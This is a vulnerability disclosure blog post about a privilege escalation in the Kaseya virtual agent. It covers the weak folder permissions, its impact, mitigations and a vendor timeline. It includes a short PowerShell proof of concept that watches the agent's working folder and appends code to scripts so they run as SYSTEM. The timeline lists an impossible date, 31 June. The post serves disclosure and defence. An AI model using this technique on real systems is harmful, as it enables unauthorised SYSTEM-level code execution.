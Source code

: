 ```yaml
---
layout: post
title: Kaseya privilege escalation
---
```


<h3>Introduction</h3>
So this is the first time I've written about a security issue I've found. Previously they have been non issues or in niche products.
I decided to write about this as the vendor was extermely unresponsive and going through previous product CVEs it seems to be a
trait of the company, ignore the issue until an exploit is published. The other reason is that if a company is using this product then generally every machine is at risk. 

I was quite happy with myself finding this issue but after discovery I looked to see if any other issues had been found. Sadly for me it looks like someone had found a similar issue but focused on a "Time of Call - Time of use" exploit with binaries - well here is the script version.
So I give you Kaseyas virtual agent.

<h3>Product</h3>
<h4>Kaysea virtual agent version <= 9.5</h4>
<h4>Windows 10</h4>
Kaseya virtual agent provides a web application interface for managing and monitoring IT assets via deployed agents.
Its a competitor for Microsofts system center and has a small portion of the market when compared with other vendors.
The agent itself looks to be a several tools bundled together instead of a dedicated agent leveraging host capabilities such as PowerShell, WScript as well as a couple of binaries like curl which are dropped.

<h3>Vulnerability</h3>
This is not really a new issue as such but more an extension of <a href="https://www.securityfocus.com/archive/1/541884/30/300/threaded">CVE-2017-12410</a> found by Filip Palian.
Where a fix was put in place for the original issue it was specific to binaries and not scripts.
The root cause for both issues is a low privileged group with excessive permissions to a folder used by a elevated process.

The Kaseya agent runs as SYSTEM by default.
The agent also has a defaultworking folder @ <code class="highlighter-rouge">c:\kworking</code>.
It will pull scripts and binaries to this folder and execute them from disk from the controlling web application.
By default the <code class="highlighter-rouge">Authenticated Users</code> group has all rights to this folder.

Scripts are written to disk however they are not checked for integrity prior to execution.
So a folder can be monitored for script files being dropped and then append malacious code prior to execution.

<h3>Impact</h3>
Given that the Kaseya virtual agent is an IT managment tool, if the agent is deployed on a single machine within an organisation there is a good chance it has been deployed across the majority of the systems. The vulnerability itself is reliant on code execution within the working folder and will be dependant on scheduled tasks or an administrator executing scripts, so the wait time can vary.

So this is case by case based on script usage via agents within the organisation.

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the default working directory.
When a ps1 script drops it will then append the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.

<h3>Mitigation</h3>
If you are using Kaseya all scripts should be signed and verified prior to execution eliminiating the ability to append arbitary commands. Additionally Kaseya should remove the excesive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact of the Kaysea product.

<h3>Timeline</h3>
<ul>
  <li>16-06-2019 :: Issue found</li>
  <li>18-06-2019 :: security@ emailed requsting steps to disclose</li>  
  <li>30-06-2019 :: CERT contacted due to non response of vendor from official email address</li>
  <li>31-06-2019 :: CERT still unable to contact vendor</li>
  <li>07-07-2019 :: CERT makes contact with vendor. Discover security@ address is not monitored by vendor</li>
  <li>20-08-2019 :: Vendor confirms receipt of details</li>
  <li>27-08-2019 :: Email sent indicating intention to disclose due to lack of response</li>
</ul>
